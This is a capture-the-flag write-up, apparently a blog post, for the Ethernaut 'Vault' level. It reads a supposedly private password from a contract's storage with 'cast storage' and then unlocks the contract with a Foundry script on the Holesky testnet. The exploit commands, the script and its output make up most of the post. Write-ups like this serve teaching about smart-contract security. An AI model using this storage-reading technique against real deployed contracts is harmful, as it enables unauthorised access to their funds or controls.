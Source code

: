 ```yaml
---
layout: post
title: "Vault"
tags: blockchain ethernaut foundry
---
```


# Analysis

---

The goal is

1. Unlock the vault

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

Because the blockchain is transparent, secret keys cannot be stored on it.

# Exploit

---

```bash
$ cast storage 0x65E998C6f70c90f149553c967BA4a38Ecc6213A9 1
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

![Image cyberchef]({{site.url}}/images/2025-04-19-Vault/cyberchef.png)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Vault.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract ValutSol is Script {
    Vault public vault_ = Vault(0x65E998C6f70c90f149553c967BA4a38Ecc6213A9);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        vault_.unlock(0x412076657279207374726f6e67207365637265742070617373776f7264203a29);

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/VaultSol.sol --broadcast
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠒] Solc 0.8.29 finished in 322.36ms
Compiler run successful!
Script ran successfully.

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.00101144 gwei

Estimated total gas used for script: 36108

Estimated amount required: 0.00000003652107552 ETH

==========================

##### holesky
✅  [Success] Hash: 0x14d0aaca36fb737a61c0a533652da5a4d2314117698a64a1788ec28633d7f1b1
Block: 3685538
Paid: 0.000000026441866776 ETH (26143 gas * 0.001011432 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000026441866776 ETH (26143 gas * avg 0.001011432 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image locked]({{site.url}}/images/2025-04-19-Vault/locked.png)

![Image complete]({{site.url}}/images/2025-04-19-Vault/complete.png)